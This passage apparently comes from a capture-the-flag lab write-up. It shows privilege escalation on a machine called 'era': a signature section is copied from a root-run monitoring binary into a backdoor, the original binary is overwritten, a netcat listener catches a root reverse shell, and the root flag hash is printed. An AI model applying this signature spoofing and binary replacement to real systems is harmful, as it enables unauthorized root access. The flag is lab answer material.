 ### Binary signature bypass
We need to extract signature section from `monitor` file.

```bash
eric@era:/tmp$ objcopy --dump-section .text_sig=sig /opt/AV/periodic-checks/monitor
<ction .text_sig=sig /opt/AV/periodic-checks/monitor
eric@era:/tmp$ ls -la sig
ls -la sig
-rw-rw-r-- 1 eric eric 458 Jul 28 15:46 sig
```

After that, we gonna add signature to our backdoor.

```bash
eric@era:/tmp$ objcopy --add-section .text_sig=sig monitor_backdoor
objcopy --add-section .text_sig=sig monitor_backdoor
```

Then we gonna setup our kali listener.

```bash
└─$ nc -lvnp 9999
listening on [any] 9999 ...
```

Now we will replace the original `monitor` file with our backdoor.

```bash
eric@era:/tmp$ cp monitor_backdoor /opt/AV/periodic-checks/monitor
cp monitor_backdoor /opt/AV/periodic-checks/monitor
```

Waiting for a second, for my case it took about 30 seconds to 1 minute.

```bash
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.16.22] from (UNKNOWN) [10.129.198.181] 57822
bash: cannot set terminal process group (5881): Inappropriate ioctl for device
bash: no job control in this shell
root@era:~# ls -la
ls -la
total 64
drwx------  5 root root  4096 Jul 28 15:59 .
drwxr-xr-x 20 root root  4096 Jul 22 08:41 ..
lrwxrwxrwx  1 root root     9 Jul  2 09:15 .bash_history -> /dev/null
-rw-r--r--  1 root root  3106 Oct 15  2021 .bashrc
drwx------  4 root root  4096 Sep 19  2024 .cache
lrwxrwxrwx  1 root root     9 Jan 25  2025 .lesshst -> /dev/null
drwxr-xr-x  3 root root  4096 Sep 17  2024 .local
lrwxrwxrwx  1 root root     9 Sep 17  2024 .selected_editor -> /dev/null
lrwxrwxrwx  1 root root     9 Sep 17  2024 .sqlite_history -> /dev/null
drwx------  2 root root  4096 Dec 15  2024 .ssh
-rw-r--r--  1 root root   165 Jul  2 09:14 .wget-hsts
-rwxr-x---  1 root root   654 Jul  1 14:10 answers.sh
-rwxr-x---  1 root root   195 Jul  1 14:03 clean_monitor.sh
-rwxr-x---  1 root root  1070 Jul  1 13:48 initiate_monitoring.sh
-rwxr-----  1 root root 16544 Jan 26  2025 monitor
-rw-r-----  1 root root    33 Jul 28 14:55 root.txt
root@era:~# cat root.txt
cat root.txt
44f605ebc62470f16a372c9045e53173
```
